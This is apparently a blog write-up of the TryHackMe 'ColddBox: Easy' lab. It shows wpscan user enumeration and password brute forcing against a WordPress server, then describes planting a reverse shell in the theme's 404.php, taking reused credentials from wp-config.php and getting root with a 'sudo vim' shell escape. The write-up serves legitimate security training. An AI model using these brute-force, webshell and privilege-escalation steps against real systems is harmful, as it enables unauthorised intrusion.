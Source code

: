 
[TryHackMe Link](https://tryhackme.com/room/colddboxeasy){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

In this CTF, I was able to successfully exploit a WordPress server using a combination of tools and techniques. In this blog post, I will share my experience and provide insights on how I was able to get the initial foothold, escalate my privileges, and finally became root.

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 10"
  # Nmap 7.93 scan initiated Mon Feb 20 13:34:05 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.237.179
    Nmap scan report for 10.10.237.179
    Host is up (0.15s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.1.31
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: ColddBox | One more machine
    4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4ebf98c09bc536808c96e8969565973b (RSA)
    |   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
    |_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=2/20%OT=80%CT=1%CU=42564%PV=Y%DS=5%DC=I%G=Y%TM=63F36FE
    OS:8%P=aarch64-unknown-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS
    OS:=8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M
    OS:505ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68
    OS:DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
    OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
    OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
    OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
    OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
    OS:=40%CD=S)

    Network Distance: 5 hops

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Mon Feb 20 08:04:40 2023 -- 1 IP address (1 host up) scanned in -19765.28 seconds
  ```

## <b>Enumeration</b>

The first step in this process was to enumerate the webserver (WordPress) with its vulnerable plugins, themes, and users using wpscan. 

!!! tip "User Enumeration" 
    <p id="desc" style="font-size:20px">```wpscan --url http://$IP -e  u```</p>

After running this command, it returned c0ldd, philip, and hugo as usernames.

```s linenums="1" hl_lines="50 54 58"
[+] URL: http://10.10.237.179/ [10.10.237.179]
[+] Started: Mon Feb 20 13:13:31 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.237.179/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.237.179/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.237.179/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://10.10.237.179/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.237.179/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.237.179/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://10.10.237.179/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

I decided to brute force the usernames and passwords using wpscan's built-in feature.

!!! bug "Brute Force" 
    <p id="desc" style="font-size:20px">```wpscan --url $IP -U 'c0ldd,hugo,philip' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt```</p>
    

```s linenums="1" hl_lines="7 9 10"
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <=======================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {--REDACTED--}                                                                                        
^Cying philip / beanie Time: 00:09:52 <========                                 > (8839 / 40665) 21.73%  ETA: 00:35:35
[!] Valid Combinations Found:
 | Username: c0ldd, Password: {--REDACTED--}

[!] No WPScan API Token given, as a result vulnerability data has not been output.(8844 / 40665) 21.74%  ETA: 00:35:34
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Feb 20 13:32:05 2023
[+] Requests Done: 8984
[+] Cached Requests: 38
[+] Data Sent: 2.909 MB
[+] Data Received: 32.484 MB
[+] Memory used: 304.16 MB
[+] Elapsed time: 00:09:59
```
## <b>Initial Access</b>

Quickly, I directed to ```/wp-login.php``` to verify login with the harvested credentials -- {++c0ld:REDACTED++}

<img id="image1" />

After successfully logging in using the credentials for `c0ldd`, I edited the 404.php file in the appearance tab of the themes section to add a reverse shell. This allowed me to get my initial foothold into the web server. 

<img id="image2" />

I opened a listener on another tab and then opened the 404.php file in my browser. As a result, I gained access to the server with the `www-data` privilege.

<img id="image3" />
<img id="image4" />

## <b>Privilege Escalation</b>

### <b>Gaining user access</b>

As www-data, I didn't initially have access to any juicy information. However, I was able to run linpeas.sh, which helped me to find some credentials that were left in the wp-config.php file. 

<img id="image5" />

 I copied the username and password and attempted to access the `3306` port that was running on `127.0.0.1` but had no luck. Finally, I tried using the same credentials to log in to the `c0ldd` account. This was a success, and I was able to escalate my privilege from `www-data` to `c0ldd`.

### <b>Gaining root access</b>

As `c0ldd`, I ran sudo -l as I already knew his password. The output showed that Vim could be run as sudo.

<img id="image6" />

With this knowledge, I was able to execute the command 

!!! success "Sudo Command"
    <p id="desc" style="font-size:20px">```sudo vim -c ':!/bin/sh'```</p>

from [GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo). This allowed me to edit a file that was owned by root, thereby giving me access to the root user. As a result, I was able to escalate my privilege once again and become root.

<script>
// JSON object
const data = {
    "desc": "An easy level machine with multiple ways to escalate privileges.",
    "ip":  "10.10.237.179",
    "ports": "80/tcp,http,Apache httpd 2.4.18;4512/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.10",
    "difficulty":"easy",
    "id": "1"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImages = 5;
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>
